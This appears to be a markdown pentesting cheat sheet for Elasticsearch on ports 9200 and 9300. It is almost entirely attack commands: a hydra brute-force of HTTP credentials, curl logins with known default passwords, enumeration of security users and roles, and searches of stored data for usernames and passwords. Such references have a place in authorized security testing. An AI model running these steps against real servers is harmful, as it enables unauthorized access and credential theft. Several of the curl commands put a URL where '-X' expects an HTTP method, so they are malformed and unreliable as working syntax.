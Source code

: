 ```yaml
---
title: Elasticsearch Pentesting
desc: Default port is 9200, 9300.
tags: [9200, 9300, Curl, Elasticsearch, Hydra, Web]
alts: []
render_with_liquid: false
---
```


## 1. Enumeration

1. **Brute Force Credentials**

    Crack the "Authorization" header in the web page.

    ```sh
    hydra -L usernames.txt -P passwords.txt <target-ip> -s 9200 http-get /
    ```

<br />

## 2. Access over HTTP

Elasticsearch uses HTTP.

```sh
# Basic
curl -X http://10.0.0.1:9200/

# Default credentials
curl -X http://admin:elasticadmin@10.0.0.1:9200/
curl -X http://elastic:changeme@10.0.0.1:9200/


# User Enumeration
curl -X http://10.0.0.1:9200/_security/role
curl -X http://10.0.0.1:9200/_security/user

curl -X http://10.0.0.1:9200/_xpack/security/user

# Search
curl -X http://10.0.0.1:9200/_search?q=username
curl -X http://10.0.0.1:9200/_search?q=password

# Others
curl -X http://10.0.0.1:9200/_cat/
curl -X http://10.0.0.1:9200/_cluster/
curl -X http://10.0.0.1:9200/_nodes/
curl -X http://10.0.0.1:9200/_remote/
curl -X http://10.0.0.1:9200/_security/
```
